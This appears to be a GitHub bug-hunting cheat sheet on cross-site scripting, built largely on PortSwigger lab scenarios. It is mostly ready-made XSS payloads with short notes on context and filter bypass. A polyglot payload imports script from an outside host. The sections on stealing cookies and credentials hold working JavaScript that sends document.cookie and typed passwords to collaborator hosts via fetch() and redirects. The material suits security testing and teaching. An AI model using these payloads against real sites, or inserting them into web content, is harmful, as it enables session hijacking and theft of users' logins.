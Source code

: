 ## Testing XSS
**One Payload For Testing All Kinds of scenario**
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
<!--</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76-->
```
```
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76
```
**Note**
  1. Check html tag and attribute for reflection.
  2. If < and > symbol reflecting in source code without encoding, XSS possible.
  3. If ' or " symbol reflecting in source code without encoding, XSS possible.

**Testing XSS in every type of scenario**
```js
<script>alert(1337)</script>

><script>alert(1337)</script>

<sCrIpt>alert(1337)</sCripT>

">cyborg71<script>alert(1337)</script>

<svg/ onload=alert(1337)//

<Svg/OnLoad=(confirm)(1337)<!--

<body/OnResize=(confirm)(123456)<!--

<img src=x onerror=alert(1337)>

</script><img src=x onerror=alert(1337)>

<iframe src="javascript:alert(1337)">

';alert(1337)//

${alert(1337)}

<custom-tag onmouseover='alert(1337)'>

/?x=y'%09onclick='alert(1337)'%09accessKey='x'

/?'accesskey='x'onclick='alert(1337)

javascript:alert(1337) (Inject in href attribute)

y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1337)%3E

"><h1>cyborg.71</h1>

<script onclick="alert(1337)">

<a href="javascript:alert('XSS')">Click me</a>

<img src=https://i.imgflip.com/8uo0t9.jpg>
```
Here, ```%09``` represents the horizontal tab character and ```%0A``` represents the newline.
<br>
**External source of payloads**

https://github.com/payloadbox/xss-payload-list

**For filter bypass**

https://github.com/terjanq/Tiny-XSS-Payloads

## Payload for stealing cookies
```js
<script>
fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
```js
<script>location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';</script>
```
## Payload for stealing credentials
```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://m1ofpkz2aozr1riy4z987vbc137uvnjc.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
## XSS with filter evasion
```
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
**XSS Filter Evasion Cheat Sheet**
<br>
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
## For html Injection
```
<h1>cyborg71</h1>
"><h1>cyborg71</h1>
<a href="https://google.com"></a>
```
## Angle brackets HTML-encoded bypass
**Reflected XSS into HTML attribute with angle brackets HTML-encoded**
<br>
<br>
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
<br>
![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
" onmouseover="alert(1)
```
![Screenshot from 2024-06-22 22-10-29](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5f0c53d6-0489-483d-a82d-373456ee9233)
<br>
<br>
**Reflected XSS into a JavaScript string with angle brackets HTML encoded**
<br>
<br>
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
'-alert(1)-'
```
Finally the code will look like this after response.
![Screenshot from 2024-06-23 19-29-18](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5387641e-5ee7-4dca-89a3-e1253a426bc5)
<br>
<br>
## Reflected XSS into a JavaScript string with single quote and backslash escaped
<br>
In some scenarios the payload might not work because of single quote and backslash escape.
![Screenshot from 2024-07-01 04-27-49](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/af236bde-554a-45f9-8e61-77f4409e5ef4) <br>
In this situation, you close the script tag inject your payload.
```
</script><img src=x onerror=alert(1337)>
```
And then the final code will look like this after response.
![Screenshot from 2024-07-01 04-37-54](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/8221e31d-5597-464b-8ed2-2b4d32368b9d)
<br>

**Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped**

<br>
Sometimes previous method might not work because of angle brackets and double quotes HTML-encoded and single quotes escaped.
![Screenshot from 2024-07-01 21-47-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/320694fa-5d32-468d-bab3-62bc18829582)<br>
In this case you can try this payload
```
\';alert(1337)//
\'-alert(1)//
```
And the final code will look like this.
<br>
![Screenshot from 2024-07-01 21-50-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/3c75b4b8-173c-4bf7-8c3b-bc87dbc90386)
## Tags and Attribute Block Bypass
<br>

**Reflected XSS into HTML context with most tags and attributes blocked**
<br>
Bruteforce for getting allowed tags.
<br>
***Check this Portswigger lab for details:*** https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked.
```
"><body onresize=alert(1337)>
```
<br>
  
**Reflected XSS into HTML context with all tags blocked except custom ones**

<br>
Key Note
```tabindex="1"```, ```id="a1"```, ```#a1```
```
<custom-tag tabindex="1" onfocus='alert(1337)' id="a1">#a1
<xss id=a1 onfocus=alert(document.cookie) tabindex=1>#a1
```
## Reflected XSS with some SVG markup allowed
```
"><svg><animatetransform onbegin=alert(1337)></animatetransform></svg>
"><svg><animatetransform onbegin='alert(1337)'></animatetransform></svg>
```
## Reflected XSS in canonical link tag
  
Make your custom parameter in a url path such as httpx://a.com/?```whoami=cyborg71```.
![Screenshot from 2024-07-01 03-55-35](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/67df34d4-e22f-49cf-a1f0-786a9113b316)<br>
After this, If we get a canonical link in page source, then there might be a xss vulnerability exists. In this case try this payloads.
```
/?whoami=cyborg71'%09onclick='alert(1337)'%09accessKey='x'
/?'accesskey='x'onclick='alert(1337)
```
Now, use this keys to get reflection.

    On Windows: ALT+SHIFT+X
    On MacOS: CTRL+ALT+X
    On Linux: Alt+X
